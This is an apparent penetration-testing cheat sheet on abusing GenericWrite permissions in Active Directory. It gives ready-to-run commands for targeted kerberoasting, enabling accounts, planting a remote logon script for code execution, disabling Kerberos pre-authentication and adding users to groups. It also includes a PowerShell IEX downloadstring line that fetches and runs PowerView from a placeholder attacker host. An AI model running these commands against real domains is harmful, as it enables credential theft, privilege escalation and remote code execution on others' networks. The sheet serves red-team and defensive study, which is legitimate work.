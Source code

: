 # Abusing GenericWrite (User over User)

If an user have GenericWrite over an user can get user hash and change user properties, this properties include change logon script wich allows for RCE if user connects.


### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

#### From Linux (externally, recomended):

With password -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -p '<password>'`

With nt hash  -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -H :<nt hash>`

<br>

Kerberos Authentication:

`getTGT.py <domain>/<user>:<password> -dc-ip <dc_ip>`

`export KRB5CCNAME=<file.ccache>`

`targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<password>' -k --dc-host <machine.domain>`

Note: If clock error appears "KRB_AP_ERR_SKEW" use kerberos sync command before.

<br>

#### From Windows (internally):

Load powerview module first -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

Make sur that the target account has no SPN -> `Get-DomainUser '<victimuser>' | Select serviceprincipalname`

Set the SPN -> `Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}`

Obtain a kerberoast hash -> `$User = Get-DomainUser '<victimuser>' ; $User | Get-DomainSPNTicket | fl`

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You change can some properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>


### Make user asreproastable:
#### (internally inside victim machine)

You can turn that user in to a asreproastable user setting "doesnotrequirepreauth" to "true"

`get-aduser targetusername | Set-ADAccountControl -doesnotrequirepreauth $true`

<br>

-------------------------------------------------

# Abusing GenericWrite (User over Group)

Technically if an user have GenericWrite over a grup can move user into that group and change some group properties.

### Set an user inside that group:
#### (externally, from attacking machine)
You can put users inside the that group, including your self.

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>`

BloodyAD -> `bloodyAD --host '<ip>' -d '<domain>' -u '<controlled_user>' -p '<password>' add groupMember '<target_group>' '<target_user>'`

<br>

#### (internally, inside victim machine)

If you get inside the machine try it manually. If unsuccesfull you can also try with powerview.

`net group '<target_group>' <target_user> /add /domain`

Source: https://www.hackingarticles.in/genericwrite-active-directory-abuse/


